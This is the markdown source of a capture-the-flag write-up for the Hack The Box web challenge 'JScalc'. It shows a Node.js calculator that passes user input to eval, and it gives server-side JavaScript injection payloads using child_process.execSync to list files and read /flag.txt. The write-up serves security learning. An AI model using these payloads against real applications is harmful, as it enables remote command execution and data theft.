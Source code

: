 ```yaml
---
title: JScalc - Hack The Box
date: 2024-11-16
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# JScalc

![JScalc - thumbnail](/ctf/hack-the-box/challenges/web/jscalc/thumbnail.png)

## Challenge description

In the mysterious depths of the digital sea, a specialized JavaScript calculator has been crafted by tech-savvy squids.
With multiple arms and complex problem-solving skills, these cephalopod engineers use it for everything from inkjet
trajectory calculations to deep-sea math. Attempt to outsmart it at your own risk! 🦑

## Challenge overview

The challenge presents us with a web application that features a JavaScript calculator. Users can input formulas, which
the application evaluates and returns the result.

![JScalc - calculator](/ctf/hack-the-box/challenges/web/jscalc/home.png)

### How it works

Clicking the **Calculate** button sends a `POST` request to the `/api/calculate` endpoint, where the following
server-side code processes the formula:

```js
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${formula} ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}
```

**Key Observations**:

1. The application uses the **`eval`** function to evaluate user-provided input.
2. The formula is executed within a function context, meaning arbitrary JavaScript can potentially be executed.

This reliance on `eval` makes the application vulnerable to **Server-Side JavaScript Injection (SSJI)**, allowing us to
execute arbitrary JavaScript code on the server.

## Exploitation

To confirm SSJI, we inject:

```js
process.platform
```

The response includes the server's platform `linux`, it confirms the vulnerability.

Using **Node.js’s `require` function**, we can execute arbitrary system commands through the `child_process` module. For
instance:

- **List files in the directory**:
    ```js
    require('child_process').execSync('ls').toString()
    ```

- **Retrieve the flag**:
    ```js
    require('child_process').execSync('cat /flag.txt').toString()
    ```

After injecting the payload, the server processes the request, and the response includes the contents of the `flag.txt`
file.

![JScalc - flag](/ctf/hack-the-box/challenges/web/jscalc/exploit.png)

With the fake flag retrieved, we can use the same technique to get the real flag on the HTB server.

<ChallengeCard
    challengeType="web"
    challengeName="jscalc"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/551"
/>

## References

- [MDN Web Docs - eval()](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval)
- [Node.js - child_process](https://nodejs.org/api/child_process.html)
- [OWADP NodeGoat - Server-Side Injection](https://ckarande.gitbooks.io/owasp-nodegoat-tutorial/content/tutorial/a1_-_server_side_js_injection.html)
- [Github - Code injection](https://github.com/btarr/node-eval-code-injection)
